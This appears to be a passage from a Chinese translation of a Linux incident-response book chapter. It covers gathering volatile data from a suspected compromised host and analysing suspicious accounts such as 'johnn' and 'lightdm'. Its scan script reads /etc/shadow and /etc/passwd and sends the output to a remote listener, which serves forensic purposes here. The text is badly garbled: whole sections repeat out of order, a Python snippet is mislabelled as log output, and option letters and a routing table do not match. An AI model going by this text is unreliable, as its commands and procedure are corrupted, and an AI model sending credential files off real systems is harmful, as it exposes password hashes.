

# 图 2.16

图 2.15 所示命令的部分日志条目。

```python
import os
import psutil
def get_volatile_data():
    mem_info = psutil.virtual_memory()
    cpu_usage = psutil.cpu_percent()
    return mem_info, cpu_usage
```

图 2.17

图 2.15 中命令创建的文件。

# 收集易失性数据

从受控系统中可以收集到大量的易失性数据。收集这些数据将帮助你初步判断是否发生了事件。下面将讨论你应该收集的一些常见数据。

## 日期和时间信息

## 操作系统版本

如果你以后决定进行内存分析，你将需要知道运行的确切操作系统和内核版本。`uname -a` 命令将为你提供这些信息，以及机器名称和内核构建时间戳。在 PFE 受控系统上运行该命令的结果见图 2.18。



图 2.18

在受控系统上运行 `uname` 的结果。

## 网络接口

机器上有哪些网络接口？是否有任何不该出现的新接口？这听起来可能像个奇怪的问题，但具有物理访问权限的攻击者可以很容易地添加无线接口或 USB 接口。可能存在其他奇怪但不太常见的接口。

各种接口分配了哪些地址？子网掩码是什么？是否有人关掉了某个网络，以便流量通过他们控制或监控的设备进行路由？所有这些问题都可以使用 `ifconfig -a` 命令轻松回答。在受控系统上运行 `ifconfig -a` 的结果见图 2.19。



图 2.19

`ifconfig -a` 命令的执行。

## 网络连接

还有哪些机器正在与受控机器通信？是否存在任何可疑的本地网络连接？当系统不应具有此类访问权限时，它是否正在连接到互联网内容？这些问题以及更多问题可以通过运行 `netstat -inp` 命令回答。选项 `a`、`n` 和 `p` 分用于指定所有套字、仅使用数字 IP（不解析主机名）以及显示进程标识和程序。

## 开放端口

是否存在可疑的开放端口？系统是否正在连接到已知被恶意软件使用的机器端口？这些问题也可以通过运行 `netstat -anp` 命令轻松回答。在受控系统上运行该命令的结果见图 2.20。

### 图 2.20

在对受控系统进行初始扫描期间运行 `netstat -anp` 的结果。

即使使用了已知良好的二进制文件，恶意软件也可能影响一切，因为底层内存结构可能会被 rootkit 等工具修改。在安装 rootkit 之后在受控系统上运行 `netstat -anp` 的结果见图 2.21。注意，`netstat` 进程被杀死，并且还显示了系统警告。每一个失败的命令都会增加机器可能被攻破的概率。



图 2.21

安装 rootkit 后运行 `netstat -anp` 的结果。

## 与各种端口相关的程序

某些端口已知是恶意服务的所在地。即使是安全的端口也可以被其他进程使用。`netstat -anp` 的输出可用于检测使用它们不应使用的端口的程序。例如，恶意软件可以使用 80 端口，因为在普通观察者看来这像是网络流量。

## 开放文件

除了询问哪些程序在使用端口外，查看哪些程序正在打开某些文件也很有启发性。`lsof -V`（带详细搜索列出打开的文件）命令提供了此类信息。在受控系统上运行该命令的结果见图 2.22。与`netstat`一样，如果存在 rootkit，该命令可能会失败。



图 2.22

在受控系统上运行 `lsof -V` 的结果。

## 运行中的程序

是否有可疑的运行程序？是否有不该运行的 root shell？这些问题以及更多问题可以通过运行 `ps -ef` 命令回答。如果存在 rootkit，该命令可能会无法提供完整列表。在受控系统上运行该命令的部分结果见图 2.23。



图 2.23

在受控系统上运行 `ps -ef` 的结果。

## 路由表

流量是否被重定向通过受控制的接口？网关是否被更改？这些以及其他问题可以通过检查路由表回答。获取此信息的方法有很多，两种是使用 `netstat -rn` 和 `route` 命令。rootkit 可能会通过修改这两个命令之一的结果来隐藏其存在。如果两个工具的结果不一致，则说明可能被入侵。在受控系统上运行这两个命令的结果见图 2.24。

```
root@ubuntu~$ netstat -rn
Active Internet routes (only IPv4)
Proto  Destination     Gateway     Gens  Rs Flr  Send-Q Timeout If Interface
0       0.0.0.0        0.0.0.0         0  U     0      0      0      
U      10.0.2.2        10.0.2.1         0  U     0      0      0      0 eth0
U      127.0.0.1        0.0.0.0         0  U     0      0      0      0 lo
U      192.168.1.0    192.168.1.1         0  U     0      0      0      0
```


图 2.24

在受控系统上运行 `netstat -rn` 的。

## 挂载的文件系统

系统中是否挂载了任何可疑卷？某个文件系统是否突然满了？挂载每个分区使用的权限和选项是什么？是否存在重启系统后会消失的异常临时文件系统？`df`（磁盘空间）和 `mount` 命令可以回答这类问题。

与其他许多命令一样，rootkit 可能会修改这两个命令之一的结果。如果两个工具的结果不一致，则说明系统可能被入侵。在受控系统上运行 `df` 和 `mount` 的结果见图 2.25。

### 图 2.25

在受控系统上运行 `df` 和 `mount` 的结果。

### 已加载的内核模块

是否存在可疑的内核模块？是否安装了客户端完全未知的设备驱动程序？`lsmod` 命令提供了已安装内核模块的列表。运行 `lsmod` 的部分结果见图 2.26。





图 2.26

在目标系统上运行 Ismod 的部分结果。

## 过去与现在的用户

现在谁登录了系统？每个用户最后运行了什么命令？这些问题可以通过 `w` 命令来回答。对于不熟悉该命令的人，`w` 与 `who` 命令类似，但它提供了额外信息。`w` 命令的结果如图 2.27 所示。



图 2.27

在目标系统上运行 `w` 命令的结果。

最近有谁登录过？这个问题由 `last` 命令回答。可以使用 `lastb` 命令获取失败登录尝试的列表。`last` 命令列出了用户登录的时间、如果系统在用户登录期间发生崩溃或关机的时间，以及系统启动的时间。运行 `last` 的部分结果如图 2.28 所示。请注意， 3 月 9 日存在多个可疑登录记录。一个不该存在的新用户 `johnn` 登录了，系统账户 `lightdm` 也是如此。



图 2.28

在目标系统上运行 `last` 的部分结果。`johnn` 和 `lightdm` 的登录是系统被入侵的迹象。

在目标系统上运行 `lastb` 的结果如图 2.29 所示。从图中可以看到，John 在 5 月 20 日似乎很难记住密码。更有趣的是是，`lightdm` 账户在 3 月 9 日有过一次失败登录。将此信息与 `last` 的结果结合起来，似乎攻击者正在测试这个新账户，并且第一次没有正确设置。此外，`john` 账户很可能被攻击者使用了。



### 图 2.29

是否有由攻击者创建的新账户？是否有人修改了账户以允许系统账户登录？是否因为用户使用了不安全的密码导致系统被入侵？检查 `/etc/passwd` 和 `/etc/shadow` 文件可以帮助你回答这些问题。

`/etc/passwd` 文件的部分列表见图 2.30。注意高亮部分是针对 `johnn` 账户的。看起来攻击者创建了这个账户，并试图让它看起来非常像 John Smith 的 `john` 账户。同样注意的是，位于 `/home/johnn` 的 `johnn` 有一个隐藏家目录。



### 图 2.30

目标系统的 `/etc/passwd` 文件的部分列表。高亮行是一个新的 `johnn` 账户，从第一行看与 `john` 相同。注意其隐藏的家目录。

查看图 2.30 中 `lightdm` 账户的行，我们观察到 shell 应该设置为 `/bin/false`。这是用于禁用某些系统账户的常用技术。从 `last` 命令的结果可以看出，该用户能够能够登录。这是调查 `/bin/false` 二进制文件的原因。

### 结合脚本进行

没有正理由手动记住上述所有命令。由于你已经挂载了一个带有已知良好二进制文件的驱动器，那么在你的响应驱动器上有一个脚本为你完成所有工作是有意义的。以下是一个用于初始扫描的简单脚本。该脚本非常直接，主要由调用本章之前介绍的 `send-log.sh` 组成。

```
### initial-scan.sh

# 简单脚本，用于收集初始现场应急

### 基础信息。

### 由 Phil Polstra 博士 (@ppolstra) 开发，

### PentesterAcademy.com。

usage () {

  echo "usage: $0 [listening host]"

  echo "向监听器发送日志条目的简单脚本"

  exit 1

}
```

```bash
# 你是否指定了监听器 IP?

if [ $# -gt 1 ] || [ "$1" == "--help" ]; then

  usage

fi

# 你是否指定了监听器 IP?

if [ "$1" != "" ]; then

  source setup-client.sh

fi

# 现在收集一些信息！

send-log.sh date

send-log.sh uname -a

send-log.sh ifconfig -a

send-log.sh netstat -an

send-log.sh lsof -V

send-log.sh ps -ef

send-log.sh netstat -rn

send-log.sh route

send-log.sh lsmod

send-log.sh df

send-log.sh mount

send-log.sh w

send-log.sh last

send-log.sh lastb

send-log.sh cat /etc/passwd

send-log.sh cat /etc/shadow
```

### 总结

我们在这一章中涵盖了很多内容。介绍了在确定是否发生事件时，尽量减少对系统干扰的方法。在下一章中，一旦你确定，我们将讨论进行全面的现场分析。

### 现场分析

本章包含信息：
* 文件元数据
* 时间线
* 用户历史
* 日志分析
* 哈希处理
* 内存转储
* 脚本自动化

### 发生了事件：现在

本章中的信息：
是否有攻击者创建的新账户？是否有人修改了账户以允许系统账户登录？是否因为用户使用了不安全的密码导致系统被入侵？检查 `/etc/passwd` 和 `/etc/shadow` 文件可以帮助你回答这些问题。

`/etc/passwd` 文件的部分列表见图 2.30。注意高亮部分是针对 `johnn` 账户的。看起来攻击者创建了这个账户，并试图让它看起来非常像 John Smith 的 `john` 账户。同样注意的是，位于 `/home/johnn` 的 `johnn` 有一个隐藏家目录。

目标系统的 `/etc/passwd` 文件的部分列表。高亮行是一个新的 `johnn` 账户，从第一行看与 `john` 相同。注意其隐藏的家目录。

查看图 2.30 中 `lightdm` 账户的行，我们观察到 shell 应该设置为 `/bin/false`。这是用于禁用某些系统账户的常用技术。从 `last` 命令的结果可以看出，该用户能够登录。这是调查 `/bin/false` 二进制文件的原因。

### 结合脚本进行

没有正理由手动记住上述所有命令。由于你已经挂载了一个带有已知良好二进制文件的驱动器，那么在你的响应驱动器上有一个脚本脚本为你完成所有工作是有意义的。以下是一个用于初始扫描的简单脚本。该脚本非常直接，主要由调用本章之前介绍的 `send-log.sh` 组成。

```
### initial-scan.sh

# 简单脚本，用于收集初始现场应急

### 基础信息。

### 由 Phil Polstra 博士 (@ppolstra) 开发，

### PentesterAcademy.com。

usage () {

  echo "usage: $0 [listening host]"

  echo "向监听器发送日志条目的简单脚本"

  exit 1

}
```

```bash
# 你是否指定了监听器 IP?

if [ $# -gt 1 ] || [ "$1" == "--help" ]; then

  usage

fi

# 你是否指定了监听器 IP?

if [ "$1" != "" ]; then

  source setup-client.sh

fi

# 现在收集一些信息！

send-log.sh date

send-log.sh uname -a

send-log.sh ifconfig -a

send-log.sh netstat -an

send-log.sh lsof -V

send-log.sh ps -ef

send-log.sh netstat -rn

send-log.sh route
```


```bash
send-log.sh lsmod
send-log.sh df
send-log.sh mount
send-log.sh w
send-log.sh last
send-log.sh lastb
send-log.sh cat /etc/passwd
send-log.sh cat /etc/shadow
```

### 总结

我们在这一章中涵盖了很多内容。介绍了在确定是否发生事件时，尽量减少对系统干扰的方法。在下一章中，一旦你确定，我们将讨论进行全面的现场分析。

### 现场分析

本章包含信息：
* 文件元数据
* 时间线
* 用户历史
* 日志分析
* 哈希处理
* 内存转储
* 脚本自动化

### 发生了事件：现在

本章中的信息：
是否有攻击者创建的新账户？是否有人修改了账户以允许系统账户登录？是否因为用户使用了不安全的密码导致系统被入侵？检查 `/etc/passwd` 和 `/etc/shadow` 文件可以帮助你回答这些问题。

`/etc/passwd` 文件的部分列表见图 2.30。注意高亮部分是针对 `johnn` 账户的。看起来攻击者创建了这个账户，并试图让它看起来非常像 John Smith 的 `john` 账户。同样注意的是，位于 `/home/johnn` 的 `johnn` 有一个隐藏家目录。

目标系统的 `/etc/passwd` 文件的部分列表。高亮行是一个新的 `johnn` 账户，从第一行看与 `john` 相同。注意其隐藏的家目录。

查看图 2.30 中 `lightdm` 账户的行，我们观察到 shell 应该设置为 `/bin/false`。这是用于禁用某些系统账户的常用技术。从 `last` 命令的结果可以看出，该用户能够登录。这是调查 `/bin/false` 二进制文件的原因。

## 过去与现在的用户

现在谁登录了系统？每个用户最后运行了什么命令？这些问题可以通过 `w` 命令来回答。对于不熟悉该命令的人，`w` 与 `who` 命令类似，但它提供了额外信息。`w` 命令的结果如图 2.27 所示。


图 2.27

在目标系统上运行 `w` 命令的结果。

最近有谁登录过？这个问题由 `last` 命令回答。可以使用 `lastb` 命令获取失败登录尝试的列表。`last` 命令列出了用户登录的时间、如果系统在用户登录期间发生崩溃或关机的时间，以及系统启动的时间。由于运行 `last` 的部分结果如图 2.28 所示。请注意，3 月 9 日存在多个可疑登录记录。一个不该存在的新用户 `johnn` 登录了，系统账户 `lightdm` 也是如此。


图 2.28

在目标系统上运行 `last` 的部分结果。`johnn` 和 `lightdm` 的登录是系统被入侵的迹象。

在目标系统上运行 `lastb` 的结果如图 2.29 所示。从图中可以看到，John 在 5 月 20 日似乎很难记住密码。更有趣的是，`lightdm` 账户在 3 月 9 日有过一次失败登录。将此信息与 `last` 的结果结合起来，似乎攻击者正在测试这个新账户，并且第一次没有正确设置。此外，`john` 账户很可能被攻击者使用了。


### 图 2.29

是否有由攻击者创建的新账户？是否有人修改了账户以允许系统账户登录？是否因为用户使用了不安全的密码导致系统被入侵？检查 `/etc/passwd` 和 `/etc/shadow` 文件可以帮助你回答这些问题。

`/etc/passwd` 文件的部分列表见图 2.30。注意高亮部分是针对 `johnn` 账户的。看起来攻击者创建了这个账户，并试图让它看起来非常像 John Smith 的 `john` 账户。同样注意的是，位于 `/home/johnn` 的 `johnn` 有一个隐藏家目录。


### 图 2.30

目标系统的 `/etc/passwd` 文件的部分列表。高亮行是一个新的 `johnn` 账户，从第一行看与 `john` 相同。注意其隐藏的家目录。

